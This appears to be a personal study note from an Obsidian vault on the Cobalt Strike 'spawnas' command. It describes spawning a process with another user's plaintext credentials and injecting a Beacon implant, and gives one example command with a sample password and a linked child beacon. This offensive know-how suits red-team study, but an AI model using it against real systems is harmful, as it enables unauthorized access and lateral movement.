 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SpawnAs]]  
___

## Description:  
The `spawnas` command will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it. This creates a new logon session with the interactive logon type, which makes it good for local actions, but also creates a whole user profile on disk if not already present.

Attempt this from a directory where the target user has read access.

This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.

```
beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:14 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
